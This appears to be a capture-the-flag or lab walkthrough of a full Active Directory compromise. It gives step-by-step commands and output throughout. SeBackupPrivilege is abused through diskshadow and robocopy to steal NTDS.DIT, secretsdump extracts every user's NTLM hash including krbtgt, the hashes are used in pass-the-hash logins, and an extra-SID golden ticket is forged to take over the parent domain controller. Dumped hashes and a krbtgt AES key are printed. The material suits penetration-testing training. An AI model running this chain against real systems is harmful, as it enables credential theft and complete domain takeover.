





## Login to new user
```bash
evil-winrm -i 192.168.107.162 -u 'jackie' -p 'Password123!'

# Grab Local Flag
```

## Enumerate
```bash
whoami /priv
```


## SeBackupPrivilege

SeBackupPrivilege lets us:
- Read ANY file on the system regardless of permissions
- Including protected files like NTDS.DIT
```bash

Step 1 — Create the diskshadow script file:

powershell

[System.IO.File]::WriteAllLines("C:\Users\jackie\Desktop\ine.txt", @("set verbose on","set metadata C:\Windows\Temp\meta.cab","set context clientaccessible","set context persistent","begin backup","add volume C: alias ine","create","expose %ine% E:","end backup"))

# Verify it worked
type C:\Users\jackie\Desktop\ine.txt

```



```bash
Step 2 — Run diskshadow with the script

diskshadow /s C:\Users\jackie\Desktop\ine.txt
```

```bash
Step 3 — Copy NTDS.DIT from the shadow copy:

robocopy /b E:\Windows\NTDS . ntds.dit
```


```bash
Step 4 — Save the SYSTEM registry hive:

reg save hklm\system C:\Users\jackie\Desktop\system

#Results
The operation completed successfully.
```
```bash
Step 5 — Download both files to Kali

download ntds.dit
download system
```

```bash
Step 6 - Dump secrets

cd ~/impacket-latest/examples

python3 secretsdump.py -ntds ntds.dit -system system LOCAL
```

## Results
```bash
DC02 (sub.poseidon.yzx) - ALL HASHES
========================================
Administrator : 3bcdd818f7ec942ac91aa30d8db71927
krbtgt        : 80f23a248d39b8cb93df3a4a2f4199a1
chen          : c4ddb64252adfc9e0558353099ded495
jackie        : 2b576acbe6bcfda7294d6bd18041b8fe
lisa          : 905ae9b4d957545fb7b9ea0c4333247b
eric.wallows  : a1f18f9362b5485cca07aedda6792454
```

## Enumerate Admin via NXC

```bash
nxc smb 192.168.107.161-163 -u 'Administrator' -H '3bcdd818f7ec942ac91aa30d8db71927'

#Results
SMB         192.168.107.163 445    GYOZA            [+] sub.poseidon.yzx\Administrator:3bcdd818f7ec942ac91aa30d8db71927 (Pwn3d!)
SMB         192.168.107.162 445    DC02             [+] sub.poseidon.yzx\Administrator:3bcdd818f7ec942ac91aa30d8db71927 (Pwn3d!)
```

## Login via Administrator
```bash
evil-winrm -i 192.168.107.162 -u 'Administrator' -H '3bcdd818f7ec942ac91aa30d8db71927'

#Grab Proof.txt
```

## Golden Ticket + Extra SID attack

```bash
# NOTE: We have Administrator to DC02 (sub sub.poseidon.yzx).
# Determine parent/child domains
nltest /domain_trusts /v

#Results: 
List of domain trusts:
    0: POSEIDON poseidon.yzx (NT 5) (Forest Tree Root) (Direct Outbound) (Direct Inbound) ( Attr: withinforest )
       Dom Guid: b77f9b23-9f53-4afc-a027-b38929b466f0
       Dom Sid: S-1-5-21-1190331060-1711709193-932631991
    1: sub sub.poseidon.yzx (NT 5) (Forest: 0) (Primary Domain) (Native)
       Dom Guid: 5cdf1d22-5e08-4243-b8b1-32651fe49630
       Dom Sid: S-1-5-21-4168247447-1722543658-2110108262
The command completed successfully
```
## Confirm /etc/hosts file is correct
```bash
192.168.107.163 GYOZA GYOZA.sub.poseidon.yzx
192.168.107.162 DC02 DC02.sub.poseidon.yzx sub.poseidon.yzx
192.168.107.161 DC01 DC01.poseidon.yzx poseidon.yzx
```
## Generate Kerberos Ticket 

```bash
# Gathered earlier from the NTDS.DIT file & Secretsdump.py

krbtgt:502:aad3b435b51404eeaad3b435b51404ee:80f23a248d39b8cb93df3a4a2f4199a1:::
krbtgt:aes256-cts-hmac-sha1-96:b2304e451b53dc5e71c08ddd0fd06a3803d8f14243020fd46c80ad44ec75d2a2

# Generate hash with ticketer.py
cd ~/impacket-latest/examples

python3 ticketer.py -aesKey b2304e451b53dc5e71c08ddd0fd06a3803d8f14243020fd46c80ad44ec75d2a2 -domain sub.poseidon.yzx -domain-sid S-1-5-21-4168247447-1722543658-2110108262 -extra-sid S-1-5-21-1190331060-1711709193-932631991-519 Administrator

# Results
[*] Saving ticket in Administrator.ccache
```

## Load Ticket
```bash
export KRB5CCNAME=Administrator.ccache
```

## Run psexec.py with loaded ticket
```bash
python3 psexec.py sub.poseidon.yzx/Administrator@DC01.poseidon.yzx -k -no-pass

#NOTE: This will only work with the proper generated/loaded ticket
#NOTE: /etc/hosts file must be correct

# Grab Administrator Flag on DC01
```
